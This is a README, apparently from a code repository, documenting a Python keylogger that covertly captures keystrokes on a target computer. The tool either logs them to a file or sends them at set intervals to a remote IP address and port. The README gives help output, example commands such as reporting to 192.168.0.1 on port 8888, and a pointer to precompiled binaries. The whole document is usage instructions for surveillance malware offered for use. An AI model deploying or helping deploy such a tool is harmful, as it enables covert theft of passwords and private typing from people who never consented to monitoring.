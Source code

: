 # Python Key Logger
This is a variant of the well known tool referred to as a key-logger.
A key-logger is used to capture keystokes made on a target computer, and either covertly sending that data or storing it somewhere for retrieval.

This tool uses the python "keyboard" module, which requires root permissions on linux.

## How to use
This is an executable that can be ran of the command line, with two different modes: Manual or Prompt
Each mode has a different way to configure the target, port #, and reporting interval, the configurable parts of this program

### Manual
Run with "manual" or "m"

Requires the user to enter the target immediately after "manual/m" as a positional argument.
The port number can be entered following the flag -p or --port, but is only required if the target is a ip address.
The interval can be entered following the flag -i or --interval, but is not required. The default is 60 seconds.

--help output:
```
usage: keylogger.py manual [-h] [-p PORT] [-i INTERVAL] target

positional arguments:
  target                IP or filename

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  If IP is specified, target port #
  -i INTERVAL, --interval INTERVAL
                        Report interval, Default 1 minute
```

Example:
```
python keylogger.py m 192.168.0.1 -p 8888 -i 600
```

### Prompt
Run with "prompt" or "p"

The user will be prompted for the target, port, and interval by the running process.

Example:
```
python keylogger.py p
Target: 127.0.0.1
Port: 8888
Interval: 60
```

## What are the command line options? And what do they mean
- Target
- Port
- Interval

### Target
- Positional, Required

Either an IPv4 address, or a filename (the process will detect which one).
If it is a file, it will open the file if possible, and the file will remain open for the duration of the program. And will write captured keystrokes to that file.
If is is an ip address instead, it will make a connection every [interval](#Interval) seconds to report captured keystrokes. If it cannot open a connection, it will continue to capture keystrokes until it can.

### Port
- \-p
- \-\-port

This is required if [target](#Target) is an IP address, and it will be the target port to make a connection to.

### Interval
- \-i
- \-\-interval

This is the report interval, in seconds. Which determines how often the process will report captured keystrokes.

## Releases
In the "releases" directory, there will be binaries compiled with [PyInstaller](https://www.pyinstaller.org/).

The only current binary was compiled on a linux system, so it may only work for linux, but might work on any OS, 
I will add compiled binaries for windows and MacOS when I can.


